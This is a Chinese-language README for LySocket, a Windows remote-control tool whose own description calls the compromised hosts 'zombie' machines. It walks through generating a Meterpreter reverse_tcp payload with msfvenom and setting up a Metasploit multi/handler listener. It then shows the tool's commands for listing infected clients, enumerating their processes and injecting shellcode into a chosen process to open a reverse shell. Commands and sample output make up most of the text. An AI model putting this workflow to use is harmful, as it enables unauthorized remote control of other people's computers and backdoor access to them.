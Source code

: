 # LySocket 远程Shell植入远控

<br>

<div align=center>

![logo](https://user-images.githubusercontent.com/52789403/191662936-77e48078-82ed-4d9b-8ae2-c1df303ed5aa.png)

</div>

<br>

LySocket 是一款使用纯 `WindowsAPI` 实现的命令行版远程控制工具，该工具通过最少的代码实现了套接字的批量管理操作，用户可以指定对远程主机内特定进程注入`ShellCode`载荷，只要对端`LyClient`客户端能一直运行，则`Metasploit`攻击载荷就可以很方便的注入到目标主机任意的进程内反弹。

首先需要通过`Metasploit`工具生成一个有效载荷。
```
32位载荷生成
[root@lyshark ~]# msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.93.128 LPORT=9999 -f c
```
后台侦听器的配置，使用时需要与载荷的位数相对应。
```
msf6 > use exploit/multi/handler
msf6 > set payload windows/meterpreter/reverse_tcp
msf6 > set lhost 192.168.93.128
msf6 > set lport 9999
msf6 exploit(multi/handler) > exploit
```



```C
[ LySocket ] # help
 _            ____             _        _
| |   _   _  / ___|  ___   ___| | _____| |_
| |  | | | | \___ \ / _ \ / __| |/ / _ \ __|
| |__| |_| |  ___) | (_) | (__|   <  __/ |_
|_____\__, | |____/ \___/ \___|_|\_\___|\__|
      |___/

Usage: LySocket 演示版
Email: me@lyshark.com
Optional:

         --ShowSocket        输出所有上线客户端
         --GetCPU            获取客户端CPU数据
         --GetMemory         获取客户端内存数据
         --GetProcessList    获取客户端正在运行进程列表
         --InjectSelfCode    将ShellCode注入到客户端内
         --InjectRemoteCode  将ShellCode注入到客户端指定进程内
         --CloseServer       正常退出服务端
         --Exit              退出远程客户端
```

命令`ShowSocket`可输出当前有多少肉鸡上线了，用于确定对端IP地址，该套接字列表程序内会自动维护，如果客户端下线则Socket套接字将会被清理。
```C
[ LySocket ] # ShowSocket
--------------------------------------------------------------------
索引             客户端地址              端口            状态
--------------------------------------------------------------------
0                127.0.0.1               1763            Open
1                127.0.0.1               1806            Open
2                127.0.0.1               1807            Open
3                127.0.0.1               1808            Open
--------------------------------------------------------------------
[ LySocket ] #
```
命令`GetCPU,GetMemory`可用于得到对点主机信息，目前只是作为演示案例使用。
```C
[ LySocket ] # GetCPU --address 127.0.0.1
--------------------------------------------------------------------
CPUID: 3219913727
CPU型号: GenuineIntel
idle: 18281250
kernel: 18437500
user: 312500
cpu: 2
--------------------------------------------------------------------

[ LySocket ] # GetMemory --address 127.0.0.1
--------------------------------------------------------------------
内存总量                 内存剩余                内存已使用
--------------------------------------------------------------------
16219 MB                 10953 MB                5266 MB
16219 MB                 10953 MB                5266 MB
16219 MB                 10953 MB                5266 MB
16219 MB                 10953 MB                5266 MB
--------------------------------------------------------------------
```
命令`GetProcessList`可用于得到对段主机内有哪些进程正在运行，这是注入代码的前提条件。
```C
[ LySocket ] # GetProcessList --address 127.0.0.1
--------------------------------------------------------------------
索引             进程PID                 进程位数                进程名
--------------------------------------------------------------------
0                4       x64             System
1                124     x64             Registry
2                568     x64             smss.exe
3                856     x64             csrss.exe
4                956     x64             wininit.exe
5                964     x64             csrss.exe
6                80      x64             services.exe
7                484     x64             lsass.exe
8                564     x64             winlogon.exe
9                672     x64             svchost.exe
10               1060    x64             fontdrvhost.exe
11               1068    x64             fontdrvhost.exe
12               1100    x64             WUDFHost.exe
--------------------------------------------------------------------
```
得到了特定继承的PID序号以后，就可以使用如下命令注入ShellCode到特定进程内，MSF即可反弹后门链接了。
```C
[ LySocket ] # InjectRemoteCode --address 127.0.0.1 --pid 1234 --shellcode xfec12defferciruq
[+] Success..
[ LySocket ] #
```
